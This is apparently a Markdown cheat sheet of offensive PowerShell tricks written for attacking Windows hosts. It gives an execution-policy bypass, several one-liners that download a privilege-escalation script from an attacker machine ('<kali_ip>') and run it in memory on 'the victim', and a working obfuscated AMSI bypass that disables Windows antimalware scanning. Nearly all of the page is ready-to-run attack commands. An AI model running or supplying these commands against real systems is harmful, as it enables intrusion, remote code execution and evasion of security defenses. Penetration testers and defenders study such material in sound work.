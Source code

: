 # Powershell

Here I will describe many common tricks for Powershell:

## Non Interactive PowerShell execution

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1
```

## Execute file in memory

Let's say you would like to execute PS module from you Apache / SimpleHTTPServer on the victim. 
The following techniques will download the PS module and execute it in memory with no touching the disk.

For Powershell 1.0 - 2.0:

```
PS C:\> IEX(New-Object Net.WebClient).DownloadString('http://<kali_ip>/PowerUp.ps1')
```

For Powershell 3.0+:

```
PS C:\> iex (iwr 'http://<kali_ip>/PowerUp.ps1')
```

## Execute Script without Webclient

In some case WebClient might be blocked so try another way:

```
PS C:\> $wr = [System.NET.WebRequest]::Create("http://<kali_ip>/PowerUp.ps1") 
PS C:\> $r = $wr.GetResponse()
PS C:\> IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

## Disable AMSI protection in Win10+

This features uses string detection to detect "malicous" intents in commands and scripts. This is applied into Windows 10 and above:

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
